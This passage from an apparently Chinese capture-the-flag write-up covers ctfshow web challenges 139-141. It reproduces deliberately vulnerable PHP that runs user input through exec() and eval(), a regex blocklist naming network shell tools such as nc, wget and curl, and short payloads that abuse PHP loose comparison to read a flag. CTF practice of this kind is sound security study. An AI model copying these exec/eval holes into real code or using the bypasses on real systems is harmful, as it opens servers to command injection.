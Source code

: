 ```php
```
过滤了冒号
payload：ctfshow[0]=ctfshow&ctfshow[1]=getFlag
## web139（call_user_func）暂缓
```php
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```
## web140（函数利用）
```php
<?php

error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
}


```
考察函数利用，f1和f2只能由数字字母组成，观察第11行发现是弱类型比较，如果满足intval($code)=0条件即可成立，因为弱类型比较时会将类型也转为一致，即ctfshow会被转为intval('ctfshow')=0，满足条件，所以第10行利用一个无返回值函数usleep，执行结果无返回，$code为空，intval($code)=0
payload：f1=usleep&f2=usleep
## web141（函数利用，正则匹配）
```php
<?php

#error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/^\W+$/', $v3)){
            $code =  eval("return $v1$v3$v2;");
```